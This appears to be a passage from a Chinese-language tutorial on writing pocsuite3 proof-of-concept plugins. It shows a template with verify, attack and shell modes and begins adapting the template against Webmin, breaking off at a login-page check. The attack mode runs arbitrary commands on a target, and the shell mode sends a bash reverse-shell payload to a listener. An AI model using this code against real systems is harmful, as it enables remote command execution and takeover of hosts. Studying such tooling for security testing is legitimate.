     # verify 模式的实现
    def _verify(self):
        result = {}
        flag = random_str(6)
        param = f'echo {flag}'
        res = self._exploit(param)
        if res and flag in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo'][param] = res
        # 统一调用 self.parse_output() 返回结果
        return self.parse_output(result)

    # attack 模式的实现
    def _attack(self):
        result = {}
        # self.get_option() 方法可以获取自定义的命令行参数
        param = self.get_option('cmd')
        res = self._exploit(param)
        result['VerifyInfo'] = {}
        result['VerifyInfo']['URL'] = self.url
        result['VerifyInfo'][param] = res
        # 统一调用 self.parse_output() 返回结果
        return self.parse_output(result)

    # shell 模式的实现
    def _shell(self):
        try:
            self._exploit(REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port()))
        except Exception:
            pass


# 将该 PoC 注册到框架。
register_poc(DemoPOC)
```  
  
在以上 PoC 模版的基础上，结合漏洞细节，  
重写   
_exploit()  
 方法  
，如下：  
```
```  
```
def _exploit(self, param=''):
    if not self._check(dork='<title>Login to Webmin</title>'):
        return False
